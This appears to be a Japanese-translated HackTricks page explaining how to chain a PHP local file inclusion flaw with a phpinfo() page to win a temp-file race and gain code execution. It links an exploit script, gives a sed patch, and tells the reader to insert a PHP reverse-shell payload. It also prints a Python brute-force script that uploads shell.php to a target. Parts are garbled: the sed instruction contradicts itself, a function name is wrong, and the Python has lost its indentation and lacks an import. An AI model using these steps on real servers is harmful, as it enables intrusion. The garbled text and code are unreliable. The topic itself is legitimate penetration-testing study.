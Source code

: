 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### ハッカーの視点であなたのウェブアプリ、ネットワーク、クラウドを評価する

**実際のビジネスに影響を与える重大で悪用可能な脆弱性を見つけて報告します。** 20以上のカスタムツールを使用して攻撃面をマッピングし、特権を昇格させるセキュリティ問題を見つけ、自動化されたエクスプロイトを使用して重要な証拠を収集し、あなたの努力を説得力のある報告書に変えます。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}


この脆弱性を悪用するには、**LFI脆弱性、phpinfo()が表示されるページ、"file\_uploads = on"、およびサーバーが"/tmp"ディレクトリに書き込むことができる必要があります。**

[https://www.insomniasec.com/downloads/publications/phpinfolfi.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

**チュートリアル HTB**: [https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s](https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s)

エクスプロイトを修正する必要があります（**=>**を**=>**に変更）。そのためには、次のようにできます:
```
sed -i 's/\[tmp_name\] \=>/\[tmp_name\] =\&gt/g' phpinfolfi.py
```
You have to change also the **payload** at the beginning of the exploit (for a php-rev-shell for example), the **REQ1** (this should point to the phpinfo page and should have the padding included, i.e.: _REQ1="""POST /install.php?mode=phpinfo\&a="""+padding+""" HTTP/1.1_), and **LFIREQ** (this should point to the LFI vulnerability, i.e.: _LFIREQ="""GET /info?page=%s%%00 HTTP/1.1\r --_ Check the double "%" when exploiting null char)

{% file src="../../.gitbook/assets/LFI-With-PHPInfo-Assistance.pdf" %}

### 理論

もしPHPでアップロードが許可されていて、ファイルをアップロードしようとすると、このファイルはサーバーがリクエストの処理を終えるまで一時ディレクトリに保存され、その後この一時ファイルは削除されます。

次に、ウェブサーバーにLFI脆弱性が見つかった場合、一時ファイルの名前を推測し、そのファイルにアクセスしてRCEを悪用することができます。

**Windows**では、ファイルは通常**C:\Windows\temp\php**に保存されます。

**Linux**では、ファイルの名前は**ランダム**で、**/tmp**にあります。名前がランダムであるため、一時ファイルの名前を**どこかから抽出し**、削除される前にアクセスする必要があります。これは、関数"**phpconfig()**"の内容内で**変数$\_FILES**の値を読み取ることで行うことができます。

**phpinfo()**

**PHP**は**4096B**のバッファを使用し、バッファが**満杯**になると、**クライアントに送信**されます。その後、クライアントは**大きなリクエストをたくさん送信**（大きなヘッダーを使用）し、**php**リバース**シェルをアップロード**し、**phpinfo()の最初の部分が返されるのを待ち**（一時ファイルの名前が含まれている場所）、LFI脆弱性を悪用してphpサーバーがファイルを削除する前に**一時ファイルにアクセス**しようとします。

**名前をブルートフォースするためのPythonスクリプト（長さ=6の場合）**
```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
url = 'http://target.com/index.php?c=/tmp/php' + fname
r = requests.get(url)
if 'load average' in r.text:  # <?php echo system('uptime');
print('[+] We have got a shell: ' + url)
sys.exit(0)

print('[x] Something went wrong, please try again')
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### ハッカーの視点からあなたのウェブアプリ、ネットワーク、クラウドを見つめる

**実際のビジネスに影響を与える重大で悪用可能な脆弱性を見つけて報告します。** 20以上のカスタムツールを使用して攻撃面をマッピングし、特権を昇格させるセキュリティ問題を見つけ、自動化されたエクスプロイトを使用して重要な証拠を収集し、あなたの努力を説得力のある報告書に変えます。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
